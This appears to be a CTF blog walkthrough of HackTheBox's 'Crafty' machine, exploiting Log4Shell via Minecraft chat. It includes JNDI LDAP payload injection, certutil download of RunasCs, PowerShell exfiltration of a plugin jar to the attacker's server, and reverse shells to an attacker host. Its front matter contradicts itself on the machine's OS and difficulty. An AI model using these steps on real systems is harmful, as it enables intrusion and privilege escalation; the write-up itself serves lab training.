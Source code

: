 ```yaml
---
title: "CTF: crafty (HTB, Linux, Insane)"
excerpt: "A detailed walkthrough of \"crafty\" machine on HackTheBox."
tagline: "Breach insecure cloud storage!"
header:
  teaser: /docs/assets/images/teasers/ctf/crafty.png
  og_image: /docs/assets/images/teasers/ctf/crafty.png
  overlay_image: /docs/assets/images/teasers/ctf/crafty2.png
author_profile: false
share: false
tags:
  - HackTheBox
  - Windows
  - Difficulty-Easy
  - Log4Shell
categories:
  - CTF
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Crafty" machine on HackTheBox that is based on Windows operating system and categorized as "Easy" by difficulty. Never in my entire existence had I thought I would fall so low that I'd touch Minecraft in any shape or form, however, the day has come... "Enjoy" a takeover of a Minecraft server that is vulnerable to the infamous **Log4Shell** (CVE-2021-44228)! It should be noted that at the moment of writing, the machine has not been implemented in a quality manner, and even if you follow all the instructions step by step, you may still experience connectivty issues and exploits not functioning properly (it's recommended to spare yourself from pain and simply reset the machine). However, through rigorous testing, yours truly described the smoothest exploitation scenario.

## Reconnaissance

Run **nmap** to scan all ports:

```bash
nmap -p- <IP>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/nmapscan.png" alt="">
  <figcaption>Ports 80 HTTP and 25565 Minecraft are open.</figcaption>
</figure>

As soon as Minecraft appeared in the scan results, Log4Shell came across my mind due to a video watched on YouTube a while ago, Minecraft servers being vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). It was possible to inject **JNDI** queries right into the game chat and the server would execute them, provided that it utilized **Log4j** versions 1.7 to 1.18.

Navigating to the website would feature the following page:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/craftypage.png" alt="">
  <figcaption>Donate your lunch money!</figcaption>
</figure>

The website hosted on Windows IIS cannot be exploited in any way, so the Challenger has to focus on **port 25565** where Minecraft is running. The home page also mentions the server's subdomain, **play.crafty.htb**.

## Weaponization

It is required to install the following tools to establish foothold:

* Download the following [Log4j PoC](https://github.com/kozmer/log4j-shell-poc/tree/main?tab=readme-ov-file) by Kozmer from GitHub.

* The exploit requires **jdk-8u20** and checks if its present in the directory. Downloading the exact version from Oracle website prompts for account creation. I was able to find a slightly different jdk version - [jdk-8u202](https://mirrors.huaweicloud.com/java/jdk/8u202-b08/jdk-8u202-linux-x64.tar.gz) that works with the exploit. Once downloaded and extracted in the same directory as the POC script, rename the jdk directory to **jdk1.8.0_20** in order to bypass the script check.

* Download [PyCraft](https://github.com/ammaraskar/pyCraft): a CLI Minecraft client that allows to connect to the server and send messages to the game chat (best alternative to avoid the disgrace of install an actual Minecraft client on your computer).

Once the above steps have been completed, modify the code of **poc.py** file in the *log4j-shell-poc* directory to execute **"cmd.exe"** (since the server is hosted on Windows) in the payload:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/pocpy.png" alt="">
  <figcaption></figcaption>
</figure

## Exploitation / Foothold

Run Kozmer's PoC:

```bash
python3 poc.py --userip YOUR_IP --webport YOUR_HTTP_PORT --lport YOUR_NETCAT_PORT
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/kozmerpocrun.png" alt="">
  <figcaption></figcaption>
</figure>

The exploit will open a HTTP server on the specified port where it will host a malicious payload referring to Netcat listener. Also it opens an LDAP server with the instructions that would redirect the server to the Attacker's HTTP server. In the output, the tool specifies a JNDI payload that will need to be injected in the game chat.

Run Netcat:

```bash
nc -lnvp <PORT>
```

Connect to the server with PyCraft:
```bash
python start.py -o -u $USER -s play.crafty.htb:25565
# Once the chat opens, inject the JDNI payload provided by the exploit:
${jndi:ldap://<YOUR IP>:1389/a}
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/pycraft.png" alt="">
  <figcaption></figcaption>
</figure>

### User flag

The Challenger should receive a reverse shell on the Netcat listener. Claim the user flag:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/user.png" alt="">
  <figcaption></figcaption>
</figure>

## Privilege escalation

Navigate to *C:\\User\\svc_minecraft\\server\\plugins*. There's a **playercounter-1.0-SNAPSHOT.jar** file in there:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/plugins.png" alt="">
  <figcaption></figcaption>
</figure>

Now it's necessary to transfer the file to the Attacker's machine to extract its contents. Upload it to your HTTP server (other file transfer methods were not working properly on this machine at the moment of writing) with Powershell. You can use [SimpleHTTPServerWithUpload](https://github.com/Tallguy297/SimpleHTTPServerWithUpload) Python tool.

```python
python3 SimpleHTTPServerWithUpload.py <PORT>
```
Then on the Target machine:
```powershell
powershell
(New-Object System.Net.WebClient).UploadFile('http://<IP>:<PORT>/', 'playercounter-1.0-SNAPSHOT.jar')
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/jarupload.png" alt="">
  <figcaption></figcaption>
</figure>

The file should be uploaded in the directory with HTTP server tool.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/jardownload.png" alt="">
  <figcaption></figcaption>
</figure>

Let's view the contents of the file with **jd-gui**. Install it on your machine with *sudo apt-get jd-gui*. In the source code of **Playercounter.class** we see a command for **rcon** (Remote Console for the Minecraft server) that contains a <ins>password</ins> string.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/rconpass.png" alt="">
  <figcaption></figcaption>
</figure>

It's time to use the discovered passsword. For this purpose, we will utilize [RunasCs](https://github.com/antonioCoco/RunasCs) - a utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.

Download the tool. Start a HTTP server and transfer the tool to the Target machine:

```powershell
# Attacker:
python3 -m http.server <PORT>
# Target:
certutil.exe -urlcache -split -f "http://<IP>:<PORT>/runascs.exe" runascs.exe
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/rundadownload.png" alt="">
  <figcaption>Example of successfull download.</figcaption>
</figure>

Start a Netcat listner on the Attacker machine. Back on the Target machine, run **runascs.exe** with the following parameters:

```powershell
.\runascs.exe administrator <PASSWORD> cmd.exe -r <IP>:<PORT>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/runascscmd.png" alt="">
  <figcaption></figcaption>
</figure>

This will send a reverse shell as **administator** user to the Attacker. Claim the root flag in the  C:\\Users\\Administrator\\Desktop folder.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/root.png" alt="">
  <figcaption>Solved, now delete Minecraft from your computer!</figcaption>
</figure>


**Thank you for your attention and happy hacking!**
{: .notice--primary}

